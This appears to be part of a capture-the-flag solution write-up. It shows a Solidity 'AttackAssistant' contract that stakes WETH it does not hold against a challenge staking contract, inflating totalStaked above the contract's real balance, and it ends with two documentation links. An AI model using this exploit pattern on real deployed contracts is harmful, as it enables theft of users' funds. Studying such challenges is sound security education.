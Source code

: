 ```

contract AttackAssistant {
  address private challengeAddress;

  constructor(address _challengeAddress) payable {
    challengeAddress = _challengeAddress;
  }

  function attack() external {
    // Stakes unexisting funds
    // (We do not have 0.001 ether + 2 wei in WETH)
    // Makes
    //    stake.totalStaked() > stakeAddress.balance
    address wethAddress = IStaker(challengeAddress).WETH();
    IWETH(wethAddress).approve(challengeAddress, type(uint256).max);
    IStaker(challengeAddress).StakeWETH(0.001 ether + 2 wei);
  }
}
```

### References

* https://docs.openzeppelin.com/contracts/4.x/erc20
* https://docs.soliditylang.org/en/v0.8.18/contracts.html#receive-ether-function
